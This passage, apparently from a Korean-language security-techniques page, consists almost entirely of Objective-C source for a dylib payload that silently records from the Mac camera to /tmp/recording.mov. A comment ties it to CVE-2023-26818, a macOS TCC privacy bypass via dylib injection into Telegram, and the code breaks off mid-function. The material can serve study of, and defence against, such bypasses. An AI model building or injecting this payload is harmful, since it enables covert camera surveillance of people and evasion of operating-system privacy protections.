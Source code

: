 {% tabs %}
{% tab title="ObjetiveC - 녹화" %}
3초 비디오를 녹화하고 **`/tmp/recording.mov`**에 저장합니다.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from: https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface VideoRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>
@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *videoDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *movieFileOutput;
- (void)startRecording;
- (void)stopRecording;
@end
@implementation VideoRecorder
- (instancetype)init {
self = [super init];
if (self) {
[self setupCaptureSession];
}
return self;
}
- (void)setupCaptureSession {
self.captureSession = [[AVCaptureSession alloc] init];
self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;
AVCaptureDevice *videoDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeVideo];
NSError *error;
self.videoDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:videoDevice error:&error];
if (error) {
NSLog(@"Error setting up video device input: %@", [error localizedDescription]);
return;
}
if ([self.captureSession canAddInput:self.videoDeviceInput]) {
[self.captureSession addInput:self.videoDeviceInput];
}
self.movieFileOutput = [[AVCaptureMovieFileOutput alloc] init];
if ([self.captureSession canAddOutput:self.movieFileOutput]) {
[self.captureSession addOutput:self.movieFileOutput];
}
}
- (void)startRecording {
[self.captureSession startRunning];
NSString *outputFilePath = @"/tmp/recording.mov";
NSURL *outputFileURL = [NSURL fileURLWithPath:outputFilePath];
[self.movieFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
NSLog(@"Recording started");
}
- (void)stopRecording {
[self.movieFileOutput stopRecording];
[self.captureSession stopRunning];
NSLog(@"Recording stopped");
}
#pragma mark - AVCaptureFileOutputRecordingDelegate
- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
fromConnections:(NSArray<AVCaptureConnection *> *)connections
error:(NSError *)error {
if (error) {
NSLog(@"Recording failed: %@", [error localizedDescription]);
} else {
```